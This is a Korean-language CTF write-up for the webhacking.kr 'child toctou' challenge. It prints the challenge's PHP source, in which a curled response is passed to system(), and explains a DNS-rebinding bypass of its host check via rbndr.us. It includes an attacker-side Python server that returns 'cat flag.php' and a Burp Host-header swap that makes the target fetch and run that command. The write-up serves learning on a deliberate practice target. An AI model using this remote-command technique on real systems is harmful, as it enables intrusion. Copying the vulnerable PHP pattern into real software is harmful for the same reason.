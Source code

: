 ```yaml
---
title: ["[Webhacking.kr] child toctou🚲 (race condition - 200)"]
date: 2024-12-01 09:00:00 +0900
categories: [writeup, webhacking.kr]
tags: [web, race condition, toctou, DNS Rebinding]
---
```


```php
<?php
  // system($_GET['q']);
  $cmd = $_GET['q'];
  if($cmd){
    if(count(explode(":",$_SERVER['HTTP_HOST'])) > 1) $_SERVER['HTTP_HOST'] = explode(":",$_SERVER['HTTP_HOST'])[0];
    if(!preg_match("/^[a-z0-9-.]+$/",$_SERVER['HTTP_HOST'])) exit("ahh nice try");
    if(($_SERVER['HTTP_HOST'] !== "webhacking.kr") && (gethostbyname($_SERVER['HTTP_HOST']) !== "202.182.106.159")) exit("Something wrong");
    sleep(1); // my server is small and weak
    $ch = curl_init();
    curl_setopt($ch, CURLOPT_URL, "http://{$_SERVER['HTTP_HOST']}:10020/cmd/".rawurlencode($cmd).".txt");
    curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
    curl_setopt($ch, CURLOPT_CONNECTTIMEOUT, 4);
    curl_setopt($ch, CURLOPT_SSL_VERIFYPEER, false);
    $response = curl_exec($ch);
    if(curl_getinfo($ch, CURLINFO_HTTP_CODE) !== 200){
      echo <<<HELP
      only "ls", "cat api.php", "cat index.php" allowed
      HELP;
    }
    else{ system($response); }
    curl_close($ch);
  }
?>
```

이번 문제는 호스트를 체크한다.  
* HTTP_HOST가 "webhacking.kr" 이거나
* HTTP_HOST의 IP가 "202.182.106.159" 이어야 한다.  
  
그 후 1초 대기하고, 입력받은 명령어를 `.txt` 확장자로 붙여서 `curl`로 요청한다.  
만약 curl 응답이 200이면, `system()`함수로 실행한다.  

호스트를 체크할 때의 시점과 실제 `curl` 요청할 때의 시점 사이의 차이를 이용할 수 있겠다.  


이번 문제는 DNS Rebinding 공격을 사용할 수 있다.  
DNS Rebinding 공격은 DNS 응답을 조작해서 서버의 보안을 우회하는 공격이다.  

서버에서 `gethostbyname()`으로 호스트 이름을 확인하고, 1초 후에 curl로 해당 호스트에 요청을 보낸다.  
이 사이에 DNS 응답을 바꾸면, 필터링을 통과하고 우리가 원하는 다른 서버 주소로 데이터를 수신할 수 있다.  


먼저, AWS나 GCP와 같은 서버가 하나 필요하다.  
로컬호스트에 ngrok을 사용해서도 가능한데 설정이 상당히 번거롭다.  

서버에 `server.py`를 만들어 파이썬으로 실행한다.  
```python
from http.server import HTTPServer, BaseHTTPRequestHandler

class Handler(BaseHTTPRequestHandler):
    def do_GET(self):
        self.send_response(200)
        self.send_header('Content-type', 'text/plain')
        self.end_headers()
        self.wfile.write(b"cat flag.php")

if __name__ == '__main__':
    server = HTTPServer(('0.0.0.0', 10020), Handler)
    print("Server started at port 10020")
    server.serve_forever()
```

```
$ curl "http://[MY_SERVER_IP]:10020/cmd/ls.txt"
cat flag.php
```  
문제 서버에서는 `~.txt`로 curl 요청을 보내는데, 어떤 경로로 요청을 보내도 `cat flag.php`라는 응답을 하도록 서버를 세팅했다.  

DNS Rebinding 기법은 별도의 DNS 서버를 세팅할 필요 없이 [오픈소스](https://github.com/taviso/rbndr)를 사용하면 된다.  

`<IPv4 by HEX>.<IPv4 by HEX>.rbndr.us`와 같이 설정하면 되고, IP의 순서는 상관 없다.  
`rbndr.us`는 TTL을 1초 이하로 매우 짧게 설정하여, 응답하는 IP 주소가 번갈아가며 나오게 된다.  

하지만, 공개 DNS 서버나 로컬 DNS 리졸버에 의해 TTL 값이 수정되고, 이전의 응답이 캐싱될 수 있다.  
따라서, 로컬에서 테스트할 때는 IP가 번갈아 가며 나오지 않을 확률이 높다.  

온라인으로 DNS TRACE를 테스트하는 서비스들이 많이 있는데,  
해당 서비스를 사용하면 서로 다른 응답이 나오는 것을 확인할 수 있다.  

burp로 `http://webhacking.kr:10020/api.php?q=ls` request를 intercept해서 Host를 `[MY_SERVER_IP].cab66a9f.rbndr.us`로 바꿔주고 요청을 날리면 확률적으로 flag가 나온다.  
